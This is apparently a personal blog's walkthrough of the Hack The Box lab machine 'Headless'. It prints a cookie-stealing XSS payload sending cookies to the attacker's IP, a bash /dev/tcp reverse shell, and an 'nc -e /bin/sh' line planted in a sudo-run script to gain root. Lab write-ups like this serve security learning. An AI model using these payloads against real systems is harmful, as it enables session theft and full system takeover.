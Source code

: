 ```yaml
---
layout: default
title : brenda - headless HTB Writeup
---
```



![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(118).png)

`Headless` is an easy machine in HTB.

### Recon
### Nmap scan
`Nmap` detects two open ports on headless: ssh (80) and http UPnP(5000). Port 5000  seems to return a web page under construction.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(121).png)

Then added headless to /etc/host and proceeded to navigate to the website `http://headless.htb:5000`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(122).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(150).png)

### Directory Search

I used `ffuf` to search directories in headless.htb.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(123).png)

I got two directories: /dashboard which was restricted and /support. I navigated to /support directory

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(124).png)

The `/support` URI allows payload injection, triggering a hacking protection alert. The application replies with user HTTP request header info, indicating a potential reflected-XSS vulnerability.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(125).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(126).png)

### User flag

### Cookie stealing
I looked for how to steal cookies and found this [article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e). First, I initiated a Python server on port 1234 using the command:

`python3 -m http.server 1234`

Then, I captured an HTTP request and sent it to Repeater. 
Within Repeater, I injected a cookie-stealing payload into reflected headers like "User-Agent", "Accept" and "message" until I got a response. 

`<script>var i=new Image(); i.src="http://10.10.14.21:1234/?cookie="+btoa(document.cookie);</script>`

I repeated this process until the server intercepted and processed the injected payload.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(130).png)

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(131).png)

After setting the accept field to the payload, my server intercepted the cookie, which was encoded in base64. I then proceeded to decode the cookie to reveal its contents.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(140).png)

Now that I obtained the desired cookie, I returned to `/dashboard` and intercepted the request in Burp Suite. I replaced the original cookie with the one we discovered.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(134).png)

I forwarded the request and got this page.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(133).png)

I attempted to gain access to a shell while being behind a protected page. To do so, I created a payload file named `shell.sh` containing the following code:

`/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.21/1333 0>&1'`

Then set up a listener on port 1333

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(141).png)

With the server still running on port 1234, I requested the payload file `shell.sh` from my machine to the target server.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(138).png)

A shell was finally obtained !!!

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(139).png)

A little digging and I found the user flag

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(142).png)

### Privilege Escalation

### Root Flag

I verified the user's permissions. I did this by running the command `sudo -l`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(148).png)

It seemed we had access to the contents of /usr/bin/syscheck. I decided to examine it further by displaying its contents using the 'cat' command.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(149).png)

Noticing that the file initdb.sh was being launched, we decided to insert a payload into that file.
I executed the following commands:

`echo "nc -e /bin/sh 10.10.14.21 1444" > initdb.sh`

`chmod +x initdb.sh`

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(144).png)

I needed to open listener on port 1444, as indicated in the payload.And there I gained a root shell !!!

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(145).png)

 I proceeded to search for the root flag. And there it was, waiting for me to claim it.

![image](https://raw.githubusercontent.com/brenda87/brenda87.github.io/main/assets/images/headless/Screenshot%20(146).png)

 And that's it for the headless machine. Mission accomplished!



* * *


<footer>
    <p>&copy; 2024 Brenda. All rights reserved.</p>
  </footer>





 












